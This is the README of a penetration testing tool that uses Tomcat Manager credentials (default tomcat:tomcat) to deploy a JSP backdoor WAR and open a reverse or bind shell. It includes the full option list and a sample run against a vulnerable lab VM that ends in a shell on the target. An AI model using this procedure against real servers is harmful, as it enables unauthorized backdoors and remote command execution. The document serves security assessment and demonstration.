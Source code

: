 ## tomcatWarDeployer
Apache Tomcat auto WAR deployment &amp; pwning penetration testing tool.

### What is it?
This is a penetration testing tool intended to leverage Apache Tomcat credentials in order to automatically generate and deploy JSP Backdoor, as well as invoke it afterwards and provide nice shell (either via web gui, listening port binded on remote machine or as a reverse tcp payload connecting back to the adversary). 

In practice, it generates JSP backdoor WAR package on-the-fly and deploys it at the Apache Tomcat Manager Application, using valid HTTP Authentication credentials that pentester provided (or custom ones, in the end, we all love *tomcat:tomcat* ). 

### Usage
As simple as providing server's address with port, as a IP:PORT pair. 
Here goes the help:

```
user$ python tomcatWarDeployer.py --help

    tomcatWarDeployer (v. 0.3.1)
    Apache Tomcat 6/7 auto WAR deployment & launching tool
    Mariusz B. / MGeeky '16

Penetration Testing utility aiming at presenting danger of leaving Tomcat misconfigured.
    
Usage: tomcatWarDeployer.py [options] server

  server    Specifies server address. Please also include port after colon.

Options:
  -h, --help            show this help message and exit

  General options:
    -v, --verbose       Verbose mode.
    -s, --simulate      Simulate breach only, do not perform any offensive
                        actions.
    -G OUTFILE, --generate=OUTFILE
                        Generate JSP backdoor only and put it into specified
                        outfile path then exit. Do not perform any
                        connections, scannings, deployment and so on.
    -U USER, --user=USER
                        Tomcat Manager Web Application HTTP Auth username.
                        Default="tomcat"
    -P PASS, --pass=PASS
                        Tomcat Manager Web Application HTTP Auth password.
                        Default="tomcat"

  Connection options:
    -H RHOST, --host=RHOST
                        Remote host for reverse tcp payload connection. When
                        specified, RPORT must be specified too. Otherwise,
                        bind tcp payload will be deployed listening on 0.0.0.0
    -p PORT, --port=PORT
                        Remote port for the reverse tcp payload when used with
                        RHOST or Local port if no RHOST specified thus acting
                        as a Bind shell endpoint.
    -u URL, --url=URL   Apache Tomcat management console URL. Default:
                        /manager/
    -t TIMEOUT, --timeout=TIMEOUT
                        Speciifed timeout parameter for socket object and
                        other timing holdups. Default: 10

  Payload options:
    -R APPNAME, --remove=APPNAME
                        Remove deployed app with specified name. Can be used
                        for post-assessment cleaning
    -X PASSWORD, --shellpass=PASSWORD
                        Specifies authentication password for uploaded shell,
                        to prevent unauthenticated usage. Default: randomly
                        generated. Specify "None" to leave the shell
                        unauthenticated.
    -T TITLE, --title=TITLE
                        Specifies head>title for uploaded JSP WAR payload.
                        Default: "JSP Application"
    -n APPNAME, --name=APPNAME
                        Specifies JSP application name. Default: "jsp_app"
    -x, --unload        Unload existing JSP Application with the same name.
                        Default: no.
    -C, --noconnect     Do not connect to the spawned shell immediately. By
                        default this program will connect to the spawned
                        shell, specifying this option let's you use other
                        handlers like Metasploit, NetCat and so on.
    -f WARFILE, --file=WARFILE
                        Custom WAR file to deploy. By default the script will
                        generate own WAR file on-the-fly.
```


And sample usage on [Kevgir 1 VM by canyoupwn.me](https://www.vulnhub.com/entry/kevgir-1,137/) running at 192.168.56.100:8080 :


```
user$ python tomcatWarDeployer.py -v -x -p 4449 -H 192.168.56.102 192.168.56.100:8080

    tomcatWarDeployer (v. 0.3)
    Apache Tomcat 6/7 auto WAR deployment & launching tool
    Mariusz B. / MGeeky '16

Penetration Testing utility aiming at presenting danger of leaving Tomcat misconfigured.
    
INFO: Reverse shell will connect to: 192.168.56.102:4449.
DEBUG: Browsing to "http://192.168.56.100:8080/manager/"... Creds: tomcat:tomcat
DEBUG: Apache Tomcat Manager Application reached & validated.
DEBUG: Generating JSP WAR backdoor code...
DEBUG: Preparing additional code for Reverse TCP shell
DEBUG: Generating temporary structure for jsp_app WAR at: "/tmp/tmpDhzo9I"
DEBUG: Working with Java at version: 1.8.0_60
DEBUG: Generating web.xml with servlet-name: "JSP Application"
DEBUG: Generating WAR file at: "/tmp/jsp_app.war"
DEBUG: added manifest
adding: files/(in = 0) (out= 0)(stored 0%)
adding: files/WEB-INF/(in = 0) (out= 0)(stored 0%)
adding: files/WEB-INF/web.xml(in = 547) (out= 253)(deflated 53%)
adding: files/META-INF/(in = 0) (out= 0)(stored 0%)
adding: files/META-INF/MANIFEST.MF(in = 68) (out= 67)(deflated 1%)
adding: index.jsp(in = 4684) (out= 1595)(deflated 65%)
DEBUG: WAR file structure:
DEBUG: /tmp/tmpDhzo9I
├── files
│   ├── META-INF
│   │   └── MANIFEST.MF
│   └── WEB-INF
│       └── web.xml
└── index.jsp

3 directories, 3 files
WARNING: Application with name: "jsp_app" is already deployed.
DEBUG: Unloading existing one...
DEBUG: Unloading application: "http://192.168.56.100:8080/jsp_app/"
DEBUG: Succeeded.
DEBUG: Deploying application: jsp_app from file: "/tmp/jsp_app.war"
DEBUG: Removing temporary WAR directory: "/tmp/tmpDhzo9I"
DEBUG: Succeeded, invoking it...
DEBUG: Spawned shell handling thread. Awaiting for the event...
DEBUG: Awaiting for reverse-shell handler to set-up
DEBUG: Establishing listener for incoming reverse TCP shell at 192.168.56.102:4449
DEBUG: Socket is binded to local port now, awaiting for clients...
DEBUG: Invoking application at url: "http://192.168.56.100:8080/jsp_app/"
DEBUG: Adding 'X-Pass: oHI9mPB0mOnZ' header for shell functionality authentication.
DEBUG: Incoming client: 192.168.56.100:54251
INFO: JSP Backdoor up & running on http://192.168.56.100:8080/jsp_app/
INFO: Happy pwning. Here take that password for web shell: 'oHI9mPB0mOnZ'
DEBUG: Connected with the shell: tomcat7@canyoupwnme

tomcat7@canyoupwnme $ id
uid=106(tomcat7) gid=114(tomcat7) groups=114(tomcat7)

tomcat7@canyoupwnme $ exit

```

The program will set-up a local listener for reverse-shell connection on the 192.168.56.102:4449 host (local host) as in the example above. Then, after invoking JSP Backdoor it will automatically connect with the local listener, resulting in shell being popped up. One can also skip `-H` parameter in order to go with _bind shell_ functionality, whereas rather then setting local listener - the program will go and connect with remotely listening bind-shell.

Finally, the above invocation will result in the following JSP application accessible remotely via WEB:


![JSP backdoor gui](screen1.png)


As one can see, there is password needed for leveraging deployed backdoor, preventing thus unauthenticated access during conducted assessment.


Summing up, user has spawned WEB application providing WEB backdoor, authenticated via POST 'password' parameter that can be specified by user or randomly generated by the program. Then, the application upon receiving *X-Pass* header in the invocation phase, spawned reverse connection to our *netcat* handler. The HTTP header is being requested here in order to prevent user refreshing WEB gui and keep trying to bind or reverse connect. Also this makes use of authentication to reach that code.

That would be all I guess. 


### CHANGELOG
* 19.07.16: Version 0.3: Added bind-shell & Reverse-shell functionality to provide user with direct access to the shell.


### TODO

* ~~Implement bind & reverse tcp payload functionality as well as some pty to interact with it~~
* ~~Finish implementing noconnect and connect functionality~~
* Implement sort of communication authentication and encryption/encoding, to prevent flow of plain-text data through the wire/ether
* Test it on tomcat8

